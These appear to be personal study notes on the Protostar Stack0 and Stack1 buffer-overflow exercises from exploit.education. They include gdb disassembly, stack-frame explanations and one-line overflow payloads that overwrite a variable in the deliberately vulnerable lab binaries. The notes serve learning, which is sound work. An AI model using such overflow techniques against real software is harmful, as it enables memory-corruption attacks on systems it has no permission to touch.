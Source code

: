 # LiveOverflow Binary Exploitation / Memory Corruption

### 0x09 - 0x0A

Mostly skipped as it deals with a lot of theory behind the linux kernel

### 0x0B - Smashing the stack for fun and profit

This section makes use of exploit.education's tutorials to teach concepts and commands revolving around binary exploitation, starting with protostar.

### 0x0C - Buffer Overflow

Protostar Stack0 Exercise: Accessing memory regions outside allocated region. Objective: change the `volatile int modified` variable.

Disassmebled Program:

```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave  
0x08048434 <main+64>:	ret  
```
Some explanation for the first few lines of main:

![](./images/ss1.png)

- `CALL 0x80483f4 <main>` basically calls the main function at address 0x080483f4 (updates EIP to point to 0x080483f4) and pushes the NEXT address 0xb7eadc76 to be executed on to the stack as this is the address we want to return to after the main function finishes executing

- Lazy to explain everything but what basically this segment of assembly does is that it sets up the stack frame of the main function starting from after we execute `mov ebp, esp`. ESP will be pointing to the top of this stack frame while EBP will be pointing to the bottom. Anything below the main function's stack frame is the stack frame of the previous function which called main

Things related to the lab:

- `(gdb) define hook-stop` (creates a function which auto-runs at every breakpoint)

- `(gdb) x/[NUMBER]wx VALUE` (examines content of a memory address. If you use a pointer, it will use the memory address that the pointer is pointing to. If add number, will show you the contents of the range of memory addresses [MEMORY_ADDRESS, MEMORY_ADDRESS+1])

- `(gdb) x/[NUMBER]i VALUE` (similar to x/wx but instead of counting how many words to print after the memory location, it counts the number instructions).

- Realise that we are storing 0x0 to esp+0x5c. We infer that the modified variable memory address is here as we are setting it to 0. $esp is hence an important register in finding out how many characters we need to overflow the buffer and modify the variable to clear the lab

### Answer for Stack Zero:

`python -c "print('A'*65)" | ./stack0`

- Must be more than 64

- How do we this? We look at $esp+0x5c, and we know that $esp is at 0xbffffc00, hence the memory location of the volatile variable starts at 0xbffffc5c. Overflowing the buffer in our stack frame using A, we observe that it only starts at 0xbffffc1c. 0xbffffc5c - 0xbffffc1c = 64 in decimal.

- You can also set a breakpoint before `test   eax,eax` and modify $rax=0x1111111 such that it will fail the next `je     0x8048427 <main+51>` conditional and proceed to print the "You have change the modified variable" text but since this is a buffer overflow lab, we will do it the way we are supposed to.

### Answer for Stack One:

`./stack1 "$(echo "$(python -c "print('A'*64+'dcba')")")"`

- 0x61626364 -> abcd

- reverse the order due to little endian format

### References

https://exploit.education/

https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/